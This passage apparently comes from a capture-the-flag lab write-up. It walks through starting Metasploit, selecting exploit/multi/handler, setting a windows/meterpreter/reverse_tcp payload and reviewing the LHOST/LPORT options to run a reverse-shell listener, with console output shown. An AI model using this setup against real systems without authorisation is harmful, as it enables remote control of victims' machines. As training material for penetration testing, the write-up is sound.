 ```bash
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to check out the result of hosts and services

msf5 > 

```
Here you can type **search multi handler** to locate the exploit we need and **show payloads** to select the right payload for it. For simplicity these are the right ones to use as instructed by the room itself:

```bash
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > 
```
Then we select the right payload:
```bash
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > 
```
Now you can type in **show options** to see which options are required for us to set, in order to run the exploit.

```bash
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```

As we can see, we just need to set **[LHOST]** and **[LPORT]** to the right values, let's do that.  And type in **exploit** or **run** to start our **Metasploit listener/handler**.
